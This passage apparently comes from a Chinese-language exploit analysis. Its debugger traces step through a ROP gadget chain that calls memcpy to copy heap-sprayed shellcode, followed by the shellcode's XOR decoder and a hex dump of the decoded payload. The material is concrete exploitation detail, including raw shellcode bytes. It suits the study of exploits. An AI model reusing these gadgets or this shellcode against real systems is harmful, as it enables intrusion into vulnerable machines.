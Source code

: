 ```
4A801064    C3              retn            ; esp = 0C0C0D04, eip = 4A80AEEE
```
```
4A80AEEE    83C4 10         add esp,0x10
4A80AEF1    C3              retn            ; esp = 0C0C0D18, eip = 4A801F90
```
```
4A801F90    58              pop eax         ; eax = 00000034
4A801F91    C3              retn            ; esp = 0C0C0D20, eip = 4A80D585
```
```
4A80D585    03C2            add eax,edx     ; eax = 0C0C0D54
4A80D587    C3              retn            ; esp = 0C0C0D24, eip = 4A8063A5
```
```
4A8063A5    59              pop ecx         ; ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0D2C, eip = 4A842DB2
```
```
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0D30, eip = 4A802AB1
```
```
4A802AB1    5B              pop ebx         ; ebx = 0000000A
4A802AB2    C3              retn            ; esp = 0C0C0D38, eip = 4A80A8A6
```
```
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0D3C, eip = 4A801F90
```
```
4A801F90    58              pop eax         ; eax = 4A849170 <&MSVCR80.memcpy>
4A801F91    C3              retn            ; esp = 0C0C0D44, eip = 4A80B692
```
```
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; msvcr80.memcpy
```
调用函数 `memcpy`，各参数如下所示：
```
0C0C0D44   03E90000  /CALL 到 memcpy
0C0C0D48   03E90000  |dest = 03E90000
0C0C0D4C   0C0C0D54  |src = 0C0C0D54
0C0C0D50   00001000  \n = 1000 (4096.)
```

然后这段复制过去的 shellcode 会被解密，并跳到 `03E900A3` 执行：
```
03E9000E    B1 31           mov cl,0x31
03E90010    315A 18         xor dword ptr ds:[edx+0x18],ebx
03E90013    035A 18         add ebx,dword ptr ds:[edx+0x18]
03E90016    83C2 04         add edx,0x4
03E90019  ^ E2 F5           loopd short 03E90010
03E9001B    FC              cld
03E9001C    E8 82000000     call 03E900A3
```
```
d 03E90000:

03E90000  DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A 29 C9 B1 31  哿賢$艋侓I瀂)杀1
03E90010  31 5A 18 03 5A 18 83 C2 04 E2 F5 FC E8 82 00 00  1ZZ兟怩?.
03E90020  00 60 89 E5 31 C0 64 8B 50 30 8B 52 0C 8B 52 14  .`夊1纃婸0婻.婻
03E90030  8B 72 28 0F B7 4A 26 31 FF AC 3C 61 7C 02 2C 20  媟(稪&1?a|,
03E90040  C1 CF 0D 01 C7 E2 F2 52 57 8B 52 10 8B 4A 3C 8B  料.氢騌W婻婮<
03E90050  4C 11 78 E3 48 01 D1 51 8B 59 20 01 D3 8B 49 18  Lx鉎裃媃 計I
03E90060  E3 3A 49 8B 34 8B 01 D6 31 FF AC C1 CF 0D 01 C7  ?I????
03E90070  38 E0 75 F6 03 7D F8 3B 7D 24 75 E4 58 8B 58 24  8鄒?}?}$u鋁媂$
```
